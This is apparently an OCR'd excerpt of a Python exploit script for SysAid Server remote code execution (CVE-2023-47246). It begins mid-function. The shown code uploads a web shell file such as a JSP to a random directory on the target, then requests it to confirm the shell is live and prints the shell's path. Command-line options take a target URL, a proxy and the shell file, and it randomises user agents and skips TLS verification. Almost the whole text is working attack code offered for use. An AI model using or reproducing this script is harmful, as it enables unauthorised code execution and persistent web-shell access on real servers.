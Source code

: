 ```plain
        print(base64_encode(data=data))
        resp = requests.post(url=userEntryUrl, headers=headers, data=data, proxies=proxy, verify=False)
        print("\033[92m[+] Shell file compressed successfully!\033[0m")
        return resp
    else:
        print("\033[91m[x] Shell file compression failed.\033[0m")
        exit(0)


def shellTest(url, proxy, directoryName, shellFile):
    userEntryUrl = f"{url}/{directoryName}/{shellFile}"
    headers = {
        "User-Agent": get_random_agent()
    }
    resp = requests.get(url=userEntryUrl, headers=headers, timeout=15, proxies=proxy, verify=False)
    return resp, userEntryUrl

def exploit(url, proxy, shellFile):
    print(f"\033[94m[*] start to attack: {url}\033[0m")
    directoryName = generateRandomDirectoryName(5)
    userentryResp = shellUpload(url, proxy, directoryName, shellFile)
    print(f"\033[94m[*] Wait 9 seconds...\033[0m")
    time.sleep(9)
    cveTestResp, userEntryUrl = shellTest(url, proxy, directoryName, shellFile)
    if userentryResp.status_code == 200 and cveTestResp.status_code == 200:
        print(f"\033[92m[+] The website [{url}] has vulnerability CVE-2023-47246! Shell path: {userEntryUrl}\033[0m")
    else:
        print(f"\033[91m[x] The website [{url}] has no vulnerability CVE-2023-47246.\033[0m")


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="SysAid Server remote code execution vulnerability CVE-2023-47246 Written By W01fh4cker",
        add_help="eg: python CVE-2023-47246-RCE.py -u https://192.168.149.150:8443")
    parser.add_argument("-u", "--url", help="target URL")
    parser.add_argument("-p", "--proxy", help="proxy, eg: http://127.0.0.1:7890")
    parser.add_argument("-f", "--file", help="shell file, eg: shell.jsp")
    args = parser.parse_args()
    if args.url.endswith("/"):
        url = args.url[:-1]
    else:
        url = args.url
    if args.proxy:
        proxy = {
            'http': args.proxy,
            'https': args.proxy
        }
    else:
        proxy = {}
    exploit(url, proxy, args.file)
```
